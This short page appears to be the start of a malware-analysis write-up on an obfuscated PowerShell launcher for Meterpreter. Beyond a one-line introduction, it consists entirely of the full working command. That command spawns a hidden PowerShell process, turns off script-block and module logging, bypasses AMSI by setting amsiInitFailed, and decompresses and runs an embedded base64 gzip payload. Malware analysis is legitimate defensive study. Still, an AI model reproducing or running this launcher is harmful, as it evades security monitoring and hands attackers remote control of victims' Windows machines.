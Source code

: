 ## Meterpreter Shellcode Obfuscated in PowerShell
Taking apart a Meterpreter Payload encoded within an obfuscated PowerShell script.

'''powershell
C:\\Windows\\SysWOW64\\cmd.exe /c powershell.exe -nop -w hidden -noni -c <!#-- if([IntPtr]::Size -eq 4){$b=$env:windir+'\\sysnative\\WindowsPowerShell\\v1.0\\powershell.exe'}else{$b='powershell.exe'};$s=New-Object System.Diagnostics.ProcessStartInfo;$s.FileName=$b;$s.Arguments='-noni -nop -w hidden -c $x_wa3=((''Sc''+''{2}i''+''pt{1}loc{0}Logg''+''in''+''g'')-f''k'',''B'',''r'');If($PSVersionTable.PSVersion.Major -ge 3){ $sw=((''E''+''nable{3}''+''c{''+''1}''+''ip{0}Bloc{2}Logging''+'''')-f''t'',''r'',''k'',''S''); $p8=[Collections.Generic.Dictionary[string,System.Object]]::new(); $gG0=((''Ena''+''ble{2}c{5}i{3}t{''+''4}loc''+''{0}{1}''+''nv''+''o''+''cationLoggi''+''ng'')-f''k'',''I'',''S'',''p'',''B'',''r''); $jXZ4D=[Ref].Assembly.GetType(((''{0}y''+''s''+''tem.{1}a''+''n''+''a{4}ement.A{5}t''+''omati''+''on.{2''+''}ti{3}s'')-f''S'',''M'',''U'',''l'',''g'',''u'')); $plhF=[Ref].Assembly.GetType(((''{''+''6}{''+''5}stem.''+''{''+''3''+''}{9}''+''n{9}{''+''2}ement''+''.{''+''8}{''+''4}t{''+''7''+''}''+''m{9}ti{7}n''+''.''+''{8''+''}''+''m''+''si{0''+''}ti{''+''1}s'')-f''U'',''l'',''g'',''M'',''u'',''y'',''S'',''o'',''A'',''a'')); if ($plhF) { $plhF.GetField(((''''+''a{''+''0}''+''si{4}''+''nit{''+''1}''+''ai''+''l{2}{''+''3}'')-f''m'',''F'',''e'',''d'',''I''),''NonPublic,Static'').SetValue($null,$true); }; $lCj=$jXZ4D.GetField(''cachedGroupPolicySettings'',''NonPublic,Static''); If ($lCj) { $a938=$lCj.GetValue($null); If($a938[$x_wa3]){ $a938[$x_wa3][$sw]=0; $a938[$x_wa3][$gG0]=0; } $p8.Add($gG0,0); $p8.Add($sw,0); $a938[''HKEY_LOCAL_MACHINE\\Software\\Policies\\Microsoft\\Windows\\PowerShell\\''+$x_wa3]=$p8; } Else { [Ref].Assembly.GetType(((''S{2}{3}''+''t''+''em''+''.Mana''+''ge''+''ment.{''+''5}{4}to''+''mation.Scr''+''ipt{1}loc{0}'')-f''k'',''B'',''y'',''s'',''u'',''A'')).GetField(''signatures'',''NonPublic,Static'').SetValue($null,(New-Object Collections.Generic.HashSet[string])); }};&([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String(((''H4sIABO''+''6GmUCA+1XbU/jOBD+vt{0}+B2sVKYkUqhbYFSAhXUihlKWl0N{0}e0q1WJpm2Xhy7OA7bsrv//cZ5oeV4Oe4kpPtAJKuJPTMeP/PYfjpORaiZFIR97JCf79+R4ulQRWPiWOFAbs09YrGZuxy0Jlu8TXaJM/Rns7qMKROjnZ0gVQq{1}zr8rDdB+kkB8yRkkjkt+kc{1}UFKydXH6HUJOfxPpWaXB5SXlhtghoOAWy5ovIjB3{0}kJr{1}Kt0ZZ9qxv3613eFabVTZv04pTxy7u0g0xJWIc9slv10zYW8xA8dusVDJRI5''+''1ZcD{1}xnrlXCR0DG2MdgMt0FMZJTYuZrkcBTpVIl+VCZMbOTa+dpQM/ShSkCS2R4ZmguFo9Icz{0}GY/S4VmMVSaQoOSsy6oGxZCUjmkIuJwBuMRenW1YmIycl00u5FX4Fgi5dwj/yaM0''+''4YfJXYvdXJWndCqo5XrYU''+''0fWWd{0}RimH3NN+JNGcBy4+ORcQv98GwnFJn5jWvtUfIdCyo3yG2Qhgzk5HJizz3iVVj7RwdqqlWuCn1VMpuKM7xIkVb/qfvZdGq5Wu6HjTS{0}Fn''+''2JcsGi397xHAGl83+h+N1dN8rsOYCagvBI1ZWF{0}WeawsMOaQgV''+''IpzdqYoWMXAxDVgcO{1}agO0YccDt/2Y6TvfvZTxCJQfYmkTzAqr7t5PJq+dYzdFC2K{1}{0}/9Gulpj3ChQWhebY1HObr7RyA44TRKPdF{0}cqaFHukA5RB7xRcKKIT/VMnu1l+m2Uq5ZSBNdhhu5f8ezmDeQIt{1}qDbGyi{1}GvO4OQUW4g8cghi2Bv0WWTcn77UUACyjnuIIx0gwXBHgN{1}Vxu+K{1}w144Zb6YJuxjMOMdpkR8cBpxM8''+''KIp9khGMTiCyn8q03A85+Q02JSgreW{0}Bu1xqj/SZ0ngSGZyRYv8pi4dHUJ5OoKAokFNutOHeQpuNYInj0/UrQ9UCpgwUpRGQAyXjPZrAp838wH{1}+NAN/8tbe2lt7a//71mjzUJzVogZPmkGtFsbz718GbXnR9fUF25PR4dmP{1}7Z10+r5t8ff99dbi835ST1MW73mp5O6v9kKtnvR7fRzOz697fG{0}WiSOAto/qw8Oj0R7f1s0g/75''+''2Xnt9Kg/bwz2+xeDwWwW7s/5cdzfxDni5mG7+uXPo2oz2A6etT3d3f2Ap/{0}wnAm9sT4yl+yG{1}TDv31k83N5aOZqf{1''+''}mgtqpIp5Xhko/Iq788DqQ4KMdWRzHg4jtHkV''+''6A{1}cJSxKHT{0}O8fnXIZ''+''GyuWqC3Vkru6M2DxvZmk99uaSO0N3qfHKrp2dC8wS77Hshqkcg5joqVedb1SrKM6q8+pmdmO9fHGBnC2cPJpn9F0Gz118nsXHkGxMHOfVIUMhr1FNPAPaU/jh3Fd4+aMcyS9kg+KelHwVw2Jpd5y4ByFiV8PlD4''+''2Mz9iCIdbgmljaaNxVzWyllyeXr0qgQllM8Sf6Rw''+''It+54ZfRGpql6O0IPu+x0rwuz1IBhQptGwiwqJQy7dn0Ci2DUrZTb1wS0x{0}h7zr/Yk1''+''Wtt/JeU6bS/''+''A{0}l''+''BlnZODwAA'')-f''L'',''E'')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()))';$s.UseShellExecute=$false;$s.RedirectStandardOutput=$true;$s.WindowStyle='Hidden';$s.CreateNoWindow=$true;$p=[System.Diagnostics.Process]::Start($s);"]
'''

